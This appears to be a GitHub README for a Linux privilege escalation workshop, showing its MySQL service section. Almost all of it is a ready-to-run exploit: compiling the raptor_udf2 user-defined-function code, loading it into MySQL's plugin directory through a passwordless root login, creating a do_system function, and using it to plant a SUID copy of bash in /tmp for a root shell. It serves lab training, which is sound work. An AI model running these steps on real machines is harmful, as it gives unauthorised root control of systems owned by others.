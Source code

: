 # Linux Privilege Escalation Guide

Lets talk about the ways to linux privilege escalate from non-user by exploit executables.



Links:
https://medium.com/malware-buddy/security-infographics-9c4d3bd891ef#18dd
https://github.com/sagishahar/lpeworkshop


## 1. Service Exploits
### mysql 
Using the exploit from exploit db to get the rootshell. Since mysql is run by root without password where we can create the tables and run the `command` using function.
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:
```bash
root@gr4n173:~$ cd /home/user/tools/mysql-udf
```

Compile the `raptor_udf2.c` exploit code using the following commands:
```bash
root@gr4n173:~$ gcc -g -c raptor_udf2.c -fPIC
root@gr4n173:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```


Connect to the MySQL service as the root user with a blank password:
```bash
root@gr4n173:~$ mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) `"do_system"` using our compiled exploit:
```bash
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
```


Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type `exit` or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```bash
root@gr4n173:~$ /tmp/rootbash -p
```
